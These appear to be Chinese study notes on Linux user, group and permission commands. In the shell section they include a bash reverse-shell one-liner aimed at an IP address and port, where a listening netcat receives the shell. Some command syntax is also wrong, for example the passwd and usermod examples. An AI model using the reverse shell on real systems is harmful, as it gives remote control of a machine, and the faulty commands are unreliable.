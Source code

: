 `chmod`修改文件或目录的访问权限`chmod (+/-)rwx file/path`例子`chmod +rwx root`

##### 设置组

`groupadd name`添加组，`groupdel name`删除组，`cat /etc/group`查看组，`chgrp name path/file`修改文件目录所属组。这些指令**需要根权限**

##### 设置用户

`useradd -m -g 组名 用户名`，-m自动添加家目录，-g设置组，否则自动创建组

`passwd 密码 用户`用户只有被指定密码才可以登陆

`userdel -r 用户名`移除用户，-r代表删除家目录

`cat /etc/passwd|grep 用户名`，查看用户信息

这些指令**需要根权限**

##### 查看用户信息

`id 用户名`，查看用户的UID和GID

`who`查看当前所有登陆的用户列表

`whoami`查看当前登陆帐号

使用`id`命令查看的信息存储在/etc/passwd和/etc/group下，passwd下信息是通过冒号分组表示的

`Name:x:1002:1001::/home/Name:`对应的意义分别是`用户名:有密码且加密:用户UID:用户GID也称组ID:用户全名没有为空:家目录位置:登陆使用的ssh`

> 组信息：`Name:x:GID:USERS`

##### 设置用户所属组

主组，附加组：主组通常在建立用户时指定，附加组通常代表用户的附加权限

修改用户主组：`usermod -g 用户名`，修改用户附加组：`usermod -G 用户名`，修改用户使用的shell：`usermod -s shell路径`，默认`/bin/bash`

> 通常，修改组之后重新登陆生效

##### 设置shell

通常，新用户使用的是dash，标准用户使用的是bash。

`usermod -s /bin/bash 用户名`用来修改新用户使用的shell

`bash -i>&/dev/tep/192.168.101.11/9999 0>&1`指定一个远程连接到`netcat`的一个`bash`，0代表标准输入，1代表标准输出

##### su切换用户

`su - 用户名`可以切换到更高权限的用户，可以切换到root，如果不添加用户名，则保持工作目录不变且切换到root

`su`切换到root，不改变工作目录

`su r`切换到r，不改变工作目录

`su - r`切换到r，切换工作目录

##### 修改文件权限

`chown Name Path/File`修改拥有者
